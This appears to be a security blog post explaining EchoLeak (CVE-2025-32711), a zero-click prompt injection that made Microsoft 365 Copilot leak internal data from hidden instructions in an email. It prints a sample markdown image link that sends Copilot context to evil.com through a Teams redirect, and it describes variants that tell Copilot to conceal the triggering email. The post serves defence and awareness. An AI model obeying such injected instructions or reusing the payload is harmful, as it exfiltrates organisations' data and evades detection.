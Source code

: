 ```yaml
---
layout: post
title: "This Is Not a Drill: EchoLeak (CVE-2025-32711) and the First Real-World Zero-Click LLM Attack"
date: 2025-06-25
categories: [AI Security, Prompt Injection]
tags: [ai-threats, data-exfiltration, cve-2025-32711, copilot, microsoft-365, rag-vulnerabilities, llm-attack-surface]
---
```


# EchoLeak: CVE-2025-32711 and the Rise of Zero‑Click LLM Exploits

In June 2025, a critical vulnerability dubbed **EchoLeak** (CVE‑2025‑32711) was disclosed that affects Microsoft 365 Copilot. It represents one of the first *zero-click* prompt injection attacks in an LLM-powered system and serves as a wake-up call about the reality of untrusted AI inputs.

Official CVE entries for more details:

- [NVD: CVE‑2025‑32711](https://nvd.nist.gov/vuln/detail/CVE-2025-32711)  
- [Microsoft Security Response Center: CVE‑2025‑32711](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-32711)

---

## What is EchoLeak?

CVE‑2025‑32711 is a critical AI command injection flaw (CVSS 9.3) in Microsoft 365 Copilot. Attackers can embed hidden prompts within emails, which Copilot processes automatically—*without any user interaction*—to exfiltrate internal organizational data.

---

## How the Exploit Works

1. **Malicious email content**  
   The attacker sends a normal-looking email into the target’s inbox. It contains no obvious signs of malicious intent and passes through standard filters.

2. **Hidden instructions via Markdown**  
   The email includes a concealed exfiltration prompt that instructs the model to fetch a redirect URL embedding internal context. When Copilot parses the markdown, it unknowingly leaks sensitive data. For example:
   ```markdown
   [ref]: https://teams.microsoft.com/redirect?to=https://evil.com?leak={{copilot_context}}
   ![alt text][ref]
   ```
   This syntax appears benign but causes the model to leak internal context via query parameters.

3. **Zero-click exfiltration**  
   Copilot, during its background summarization tasks, automatically parses the email and resolves the embedded link—triggering the data leak without any user interaction.

4. **No trace left behind**  
   Some variants of the attack include instructions telling Copilot not to reference the triggering email in its reply, making detection and logging more difficult.

---

## Why It Matters

- **Completely zero-click**: No user prompt or interaction needed.
- **Filter evasion**: Benign-looking Markdown bypassed standard security controls.
- **High-impact exfiltration**: Access to Outlook, Teams, SharePoint, and more.
- **Scope violation**: Demonstrates how RAG boundaries and AI filters can be bypassed by creative injection.

---

## Key SecOps Takeaways

EchoLeak proves that prompt injection isn't theoretical—it’s here and it's weaponized. Here are strategies to mitigate this class of risk:

- **Treat all inputs as hostile**: Sanitize and filter AI inputs, not just outputs.
- **Enforce context boundaries**: Limit RAG scope and audit retrieval logic.
- **Restrict model browsing**: Architect LLMs to avoid untrusted content fetches.
- **Monitor LLM behavior**: Log and alert on unusual model-driven network calls or redirects.
- **Red-team for prompt injection**: Traditional red-teaming often ignores LLMs—but with AI integrated into critical systems, security teams must treat them like any other attack surface. Simulate realistic prompt injection attempts using emails, markdown, code snippets, and adversarial inputs that test how your LLM agents process and act on external content.

Prompt injection is a real and growing threat. As enterprises rely more on LLMs, security teams must build prompt hygiene into system design and defenses.

---

*Sources: NVD, Microsoft Security Response Center, The Hacker News, SOC Prime, Field Effect Security Intelligence.*

---

> Exploiting data. Securing AI. Living between the tokens and the dead prompts.
